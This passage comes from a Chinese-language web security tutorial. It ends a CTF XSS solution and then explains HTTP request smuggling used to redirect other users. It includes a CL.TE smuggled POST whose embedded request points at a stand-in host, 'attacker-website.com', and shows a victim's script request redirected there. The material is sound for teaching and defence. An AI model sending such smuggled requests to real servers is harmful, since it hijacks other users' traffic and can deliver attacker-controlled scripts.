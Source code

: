 ```plain
x=1
```

[![](assets/1704418275-fe5107c3b4f51ae59cc2567834401fe7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161101-a2289e7e-aa0f-1.png)  
随后目标用户访问网站时即可触发恶意 XSS  
[![](assets/1704418275-ae6b27f1e2412cb324246f0084197fb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161120-ad983710-aa0f-1.png)  
随后成功完成解题：

[![](assets/1704418275-2fb6f431cf70335532b831579da85629.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161133-b50a4b82-aa0f-1.png)

### 重定向类

在日常的 Web 开发中有很多的应用程序都会有从一个 URL 到另一个 URL 的重定向场景，而且大部分都是直接提取的请求包中的 host 头部信息，例如：Apache 和 IIS web 服务器的默认行为，其中对没有尾随斜杠的文件夹的请求接收到重定向到包括尾随斜杠的相同文件夹中

```plain
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

这种行为通常被认为是无害的，但是它可以在请求走私攻击中被利用来将其他用户重定向到外部 URL，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户的请求，例如：

```plain
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

我们可能遇到服务器级重定向大多使用路径为位置标头构造相对于根目录的 URL，例如：

```plain
GET /example HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: /example/
```
